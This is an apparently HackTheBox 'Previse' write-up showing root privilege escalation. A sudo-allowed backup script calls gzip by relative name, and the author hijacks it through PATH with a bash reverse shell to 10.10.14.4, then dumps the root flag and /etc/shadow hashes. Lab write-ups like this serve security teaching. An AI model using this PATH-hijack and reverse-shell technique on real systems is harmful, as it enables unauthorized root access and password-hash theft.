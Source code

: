 

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. -bash-4.4$ sudo -l
[sudo] password for m4lwhere:
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh

-bash-4.4$ cat access_backup.sh
  #!/bin/bash

  # We always make sure to store logs, we take security SERIOUSLY here

  # I know I shouldnt run this as root but I cant figure it out programmatically on my account
  # This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

  gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
  gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz


This is very simple. We are able to run the script as root, meaning gzip will execute as root.
By exploiting PATH, we can make our own script called gzip to be executed instead.

-bash-4.4$ locate gzip
  /bin/gzip
-bash-4.4$ $PATH
  -bash: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
-bash-4.4$ export PATH=/dev/shm:$PATH
-bash-4.4$ $PATH
  -bash: /dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
-bash-4.4$ cd /dev/shm/
-bash-4.4$ echo "bash -i >& /dev/tcp/10.10.14.4/4488 0>&1" > gzip
-bash-4.4$ chmod +x gzip
-bash-4.4$ sudo /opt/scripts/access_backup.sh

[root:/git/htb/previse]# nc -lvnp 4488                                                                                            (master✱)
  listening on [any] 4488 ...
  connect to [10.10.14.4] from (UNKNOWN) [10.10.11.104] 33952
  root@previse:/dev/shm# id && cat /root/root.txt
    uid=0(root) gid=0(root) groups=0(root)
    cd501978da45f247412ff37f44999e80
  root@previse:/dev/shm# cat /etc/shadow
    root:$6$QJgW9tG2$yIhp0MQm9b4ok8j9su9H0hJ.GuwI5AHusMrZBQv2oLfvotY5YR0MJ82zJ4xi5WCKQSWn/a3HO/M/TjS/YC0Mk1:18824:0:99999:7:::
    m4lwhere:$6$YYxntHU4$7H29aS09Qo73P8pnjDufjp11UqOVIhKrBIjSorpH0XD1GsEx0rQwWvaZW.PYmq4fd9vCseWCTyCtif9Km1TZ6/:18790:0:99999:7:::
